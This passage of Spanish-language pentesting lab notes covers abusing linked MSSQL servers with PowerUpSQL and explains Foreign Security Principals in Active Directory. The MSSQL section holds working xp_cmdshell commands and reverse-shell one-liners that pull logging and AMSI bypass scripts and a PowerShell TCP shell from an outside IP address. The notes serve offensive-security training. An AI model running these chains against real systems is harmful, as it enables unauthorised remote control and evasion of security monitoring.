También se pueden ejecutar comandos en las bases de datos enlazadas mediante PowerUpSQL:

```
# PowerUpSQL
### Ejecución de comandos
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami''' -QueryTarget db-sqlsrv
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami''' 
```

- Si omitimos ``-QueryTarget``, el comando intentará usar xp_cmdshell en cada enlace (link).

```
### Revershell sobre DB-SQLPROD
PS C:\AD\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.76/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.76/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.76/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlprod
```

```
### Revershell sobre db-sqlsrv
PS C:\AD\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.76/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.76/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.76/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```
## Foreign Security Principals (FSP)

- Un Foreign Security Principal (FSP) representa un Security Principal en un bosque externo de confianza o identidades especiales (como Usuarios Autenticados, Enterprise DCs, etc.).
- Un security principal debe tener el atributo objectSID, por lo que puede ser el administrador en una entrada de control de acceso (ACE). 
- Los principales de seguridad externos (FSP) tienen el atributo objectSID y son principales de seguridad.
- Sólo el SID de un FSP se almacena en el contenedor de entidad de seguridad externa que puede resolverse utilizando la relación de confianza.
- El FSP permite añadir entidades de seguridad externas a los **grupos de seguridad locales** del dominio. De este modo, se permite a dichos principales acceder a los recursos del bosque.

```
Referencia: https://learn.microsoft.com/en-us/archive/technet-wiki/51367.active-directory-foreign-security-principals-and-special-identities
```

- Nota: Me costó un poco entender FSP así que yo lo entiendo como, cuenta perteneciente a un dominio externo que pertenece a un grupo de seguridad dentro del dominio actual.
#### Enumeración

``Find-ForeignUser``: enumera los usuarios que están en grupos fuera de su dominio principal ``Find-ForeignGroup``: enumera todos los miembros de los grupos de un dominio y busca usuarios que están fuera del dominio consultado. Por ejemplo, si estamos en el dominio ``db.local``, buscará un usuario (``db76svc``) perteneciente a un dominio diferente como ``dbvendor.local`` .
